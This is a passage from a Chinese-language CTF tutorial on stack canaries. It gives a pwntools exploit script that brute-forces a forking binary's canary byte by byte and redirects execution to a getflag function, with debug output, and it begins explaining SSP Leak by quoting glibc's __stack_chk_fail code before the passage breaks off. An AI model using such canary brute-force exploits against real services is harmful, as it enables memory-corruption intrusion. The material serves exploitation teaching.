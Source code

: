 继续运行，再次输入发现里面的 Canary 的值没有发生改变，这正是**通过 fork 函数创建的子进程的 Canary 与父进程是相同**

编写 exp：

```bash
# -*- coding:utf-8 -*-
from pwn import *
context(os='linux',arch='i386',log_level='debug')
context.terminal = ['gnome-terminal', '-x', 'sh', '-c']

p = process('./bin1')
e = ELF('./bin1')

p.recvuntil('welcome\n')
canary = '\x00'

for i in range(3):
    for i in range(256):
        p.send('a'*100+canary+chr(i))
        message = p.recvuntil('welcome\n')
        if 'recv' in message:
            canary+=chr(i)
            break

getflag_addr = e.sym['getflag']
payload = 100*'a'+canary+8*'a'+4*'a'+p32(getflag_addr)
p.sendline(payload)
p.interactive()
```

如果 canary 不正确，就会输出检测到堆溢出的信息，如果 canary 正确，会输出成功信息，并继续下一字节的爆破，由于 32 位的 canary 有 4 字节，故需要爆破 3 次

```bash
[DEBUG] Sent 0x68 bytes:
    00000000  61 61 61 61  61 61 61 61  61 61 61 61  61 61 61 61  │aaaa│aaaa│aaaa│aaaa│
    *
    00000060  61 61 61 61  00 61 41 d1 //爆破的最后一步                            │aaaa│·aA·│
    00000068
```

## SSP Leak

### 原理

Stack Smashing Protect Leak，这种方法能够获取内存中的值，但是无法拿到 shell

原理参考链接：[https://www.anquanke.com/post/id/177832#h2-3](https://www.anquanke.com/post/id/177832#h2-3)

当 canary 被改变时，函数终止前会调用\_\_stack\_chk\_fail 函数，定义如下：

```bash
eglibc-2.19/debug/stack_chk_fail.c

void __attribute__ ((noreturn)) __stack_chk_fail (void)
{
  __fortify_fail ("stack smashing detected");
}

void __attribute__ ((noreturn)) internal_function __fortify_fail (const char *msg)
{
  /* The loop is added only to keep gcc happy.  */
  while (1)
    __libc_message (2, "*** %s ***: %s terminatedn",
                    msg, __libc_argv[0] ?: "<unknown>");
```
